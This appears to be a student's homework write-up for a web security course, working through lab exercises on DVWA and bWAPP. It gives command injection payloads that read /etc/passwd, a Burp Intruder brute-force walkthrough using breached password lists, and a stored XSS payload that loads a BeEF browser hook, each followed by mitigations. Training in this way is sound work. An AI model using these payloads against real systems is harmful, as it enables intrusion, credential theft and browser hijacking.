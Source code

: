 # Unit 15 Homework: Web Vulnerabilities and Hardening
## Prepared by Shamsul Chowdhury
---

## Web Application 1: Your Wish is My Command Injection
Access Vagrant and open a browser.

Launch Vagrant from GitBash and run the following command:

`cd ./Documents/web-vulns && docker-compose up`

Leave this page open and continue to the next step.

Open Chrome, navigate to the following web page:

![http://192.168.13.25](images/dvwa-home-page.PNG)

Log in with the following credentials:

User name: admin
Password: password
Select the Command Injection option from the left menus.

![command injection page ](images/commmand-injection-page.PNG)

Using the dot-dot-slash ../ method five times to design two payloads that will display the contents of the following files:

 `/etc/passwd`

 `8.8.8.8 && cat ../../../../../etc/passwd`

 ![](images/command-injection-etc-passwd.PNG)

 `/etc/passwd`

 `8.8.8.8 && cat ../../../../../etc/passwd`

 ![](images/command-injection-etc-hosts.PNG)

 ### Recommended mitigation strategies:
 - Server-side validation that does not allow selection of unintended files.​
 - Segregation of confidential files from the web server and accessible directories.
 - Permissions to restrict web server account accessibility.


## Web Application 2: A Brute Force to Be Reckoned With
Run this command sudo burpsuite in Vagrant command line.

Open Firefox which was already installed FoxyProxy [Foxy-Proxy](images/foxy-proxy.PNG) add-on extension in class activities.

![](images/bwapp-login.PNG)

In Burpsuite, I got following intercept data:

![](images/web-2-02-brute.PNG)

Send above Proxy intercept results to Intruder. 

Click Intruder tab;

Verify Target;

![](images/intruder-target.PNG)


Setup Positions, 

select attack type Cluster bomb;

Configure and add login and password as positions.

![](images/intruder-position.PNG)

Click Payloads tab, choose Payload type as Simple list;

Add login user ID from List of Administrators file into Payload set 1;

![](images/payload-1-admin-lists.PNG)

Add password from Breached list of Passwords file into Payload set 2;

![](images/payload-2-password.PNG)

Click `Start attack`

After analysis of intruder attack results, the login username/password combination of `tonystark` and `I am Iron Man` did result in a successful login. The page displays `Successful login! You really are Iron Man :)`.

![](images/tonystark-ironman.PNG)

### Recommended mitigation strategies:

Mitigations can include requiring complex `usernames` and `passwords`, using `multi-factored authentication`, and `enabling a lockout` after a certain amount of failed login attempts.

## Web Application 3: Where's the BeEF?


### **Step 1, Prepare Replicants website**

Inside Vagrant, go to this folder, run command: 
`~/Documents/web-vulns$ docker-compose up`

Go to this website: `http://192.168.13.25/vulnerabilities/xss_s/`

Reset db and login again. 
Username: `admin`
Password: `password`

### **Step 2, Setup BeEF**

On Vagrant, open a command line and run the following command: sudo beef

When prompted for a password, enter cybersecurity.

To access the BeEF GUI, right-click the first URL UI_URL: http://127.0.0.1:3000/ui/panel and select Open Link.

![](images/beef-setup-01.PNG)

When the BeEF webpage opens, login with the following credentials:

Username: `beef` 
Password: `feeb`

### **Step 3, Find BeEF hook and write payload**

```
BeEF hook: http://127.0.0.1:3000/hook.js

Payload: <script src="http://127.0.0.1:3000/hook.js"></script>
```
### **Step 4, Inject this payload**

One issue was found: in the message box field, there only has maxlength="50" in original source code, therefore we can not input the whole payload code.
![](images/payload-injection.PNG)

Solution: Right-clicking on web page and selecting "Inspecting the Element". Change as `maxlength="100"`, or just delete this code limit.


### **Step 5, A couple BeEf exploits**

Social Engineering >> Pretty Theft
![](images/pretty-theft.PNG)

Social Engineering >> Fake Notification Bar
![](images/fake-notification-bar.PNG)

Host >> Get Geolocation (Third Party)
![](images/get-geolocation-thirdparty.PNG)

#### Recommended mitigation strategies

Input validation is a common method used to mitigate cross-site scripting.